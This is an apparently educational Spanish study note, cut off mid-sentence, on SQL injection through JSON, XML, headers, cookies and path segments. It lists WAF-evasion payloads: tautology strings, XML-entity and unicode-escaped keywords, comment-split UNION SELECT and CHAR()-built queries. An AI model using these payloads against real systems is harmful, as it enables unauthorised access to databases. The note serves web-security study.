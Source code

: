 # SQL injection en diferentes contextos (JSON, XML, headers, APIs)

Las inyecciones SQL no se limitan al query string. Cualquier entrada controlable por el usuario que termine formando una consulta SQL puede ser vector de inyección: JSON, XML, cabeceras, cookies, segmentos de URL, multipart, GraphQL, etc. Diferentes formatos ofrecen formas alternativas de ocultar o evadir filtros, y a menudo requieren técnicas de explotación y evasión específicas.

[Obfuscating](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding)

---

## 1) Idea clave

La vulnerabilidad aparece cuando la aplicación **construye o interpola** una consulta SQL usando datos controlados externamente sin usar **consultas parametrizadas**  o validación estricta. El formato del dato (JSON, XML, header) sólo cambia la forma en que el payload debe llegar y cómo la app lo decodifica antes de pasarlo al motor SQL.

---

## 2) Contextos comunes y ejemplos

### A — Query string / form data

* GET: `/product?id=123` → `SELECT * FROM products WHERE id = '123'`.
* POST form: `product=123` similar.

### B — JSON

* Petición JSON típica:

  ```json
  { "productId": 123, "filter": "recent" }
  ```
* Si el backend hace algo peligroso como: `query = "SELECT * FROM products WHERE id = '" + data.productId + "'";`, aceptará payloads JSON que incluyan comillas o estructuras.
* **Ejemplo de inyección JSON**: si `productId` no se valida: `{ "productId": "1' OR '1'='1" }` → `... WHERE id = '1' OR '1'='1'`.

### C — XML

* XML puede usar **escape sequences** o **entidades**:

  ```xml
  <stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  </stockCheck>
  ```

  El parser XML decodifica `&#x53;` a `S`, resultando en `SELECT` en el SQL final.
* También se puede abusar de **CDATA** y XXE para OOB exfiltration (cuando el XML es parseado y convertido a SQL después).

[Lab: SQL Injection vulnerability in WHERE clause allowing retrieval of hidden data](1_SQL_injection_vulnerability_in_WHERE_clause_allowing_retrieval_of_hidden_data.md)  

![Practitioner](https://img.shields.io/badge/level-Apprentice-green)  


### D — Headers, Cookies y Path params

* `User-Agent`, `Referer`, `X-Forwarded-For`, o cookies pueden ser usados para inyección si son concatenados en SQL.
* Ejemplo: app registra `INSERT INTO access_log (ua) VALUES ('<User-Agent>')` → inyectá en `User-Agent`.
* Segmentos RESTful: `/user/123/orders` → si la app hace `WHERE user_id = '123'` usando el segmento, ese valor también puede explotar.

### E — Multipart / file metadata

* Formularios multipart incluyen campos de texto que pueden inyectarse. Metadatos de filenames también.

---

## 3) Por qué los formatos ayudan a evadir filtros (WAF, regex simples)

* Muchos filtros buscan palabras clave comunes (`SELECT`, `UNION`, `DROP`) en la entrada cruda. Si el formato (ej. JSON/XML) **decodifica** entidades o escape sequences antes de ejecutar SQL, un payload codificado puede pasar el filtro y luego ser interpretado por el servidor.
* Ejemplos de evasión:

  * **Escapes HTML / XML**: `&#x53;ELECT` → `SELECT` tras parseo XML.
  * **URL encoding / percent encoding** en parámetros.
  * **Unicode homoglyphs / UTF-8 overlong** (poco fiable y detectable).
  * **Insertar comentarios** dentro de palabras clave: `SE/**/LECT`.
  * **Separar la palabra clave**: `SE` + `LECT` (si la app concatena input de varias fuentes).
  * **Uso de concatenación del motor**: `CHAR(83)+'ELECT'` (en SQL Server) o `CHR(83)||'ELECT'` (Oracle) para producir `SELECT` internamente.

---

## 4) Ejemplos prácticos de bypass

> Ajustar comillas y encoding según el contexto (JSON string, XML text, header).

* **JSON (body)**

  ```json
  { "id": "1' OR '1'='1" }
  ```

* **JSON con encoding** (si parser decodes):

  ```json
  { "q": "1\u0027 OR \u00271\u0027=\u00271" }
  ```

  (`\u0027` = `'`) puede evadir filtros que no normalizan unicode.

* **XML escape example**

  ```xml
  <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
  ```

  (XML decode → `SELECT`)

* **Split keyword with comments**

  ```sql
  ' UN/**/ION SEL/**/ECT NULL,NULL--
  ```

* **Hex / CHAR functions** (MSSQL)

  ```sql
  ' UNION SELECT CHAR(83)+CHAR(69)+CHAR(76)+CHAR(69)+CHAR(67)+CHAR(84) --
  ```

* **Concatenate pieces from different JSON fields**
  Si un backend hace `q = body.a + body.b`, envía `{"a":"SE
